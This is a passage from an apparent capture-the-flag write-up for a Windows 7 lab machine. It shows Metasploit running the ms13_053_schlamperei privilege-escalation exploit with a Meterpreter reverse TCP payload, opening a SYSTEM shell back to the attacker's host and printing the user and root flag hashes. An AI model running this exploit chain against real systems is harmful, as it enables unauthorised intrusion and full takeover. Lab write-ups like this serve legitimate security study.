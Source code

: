 ```{r, engine='bash', count_lines}
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.15.155     yes       The listen address
   LPORT     4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 SP0/SP1
```

Time to **exploit** this female dog
```{r, engine='bash', count_lines}
msf exploit(ms13_053_schlamperei) > run

[*] Started reverse TCP handler on 10.10.15.155:4443 
[*] Launching notepad to host the exploit...
[+] Process 3052 launched.
[*] Reflectively injecting the exploit DLL into 3052...
[*] Injecting exploit into 3052...
[*] Found winlogon.exe with PID 424
[+] Everything seems to have worked, cross your fingers and wait for a SYSTEM shell
[*] Sending stage (171583 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.15.155:4443 -> 10.10.10.5:49211) at 2017-10-15 10:09:25 +0530
[+] negotiating tlv encryption

meterpreter > 

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```


**user.txt**
```
C:\Users\babis\Desktop>type user.txt.txt
type user.txt.txt
9ecdd6a3aedf24b41562fea70f4cb3e8
```


**root.txt**
```
C:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
e621a0b5041708797c4fc4728bc72b4b
```
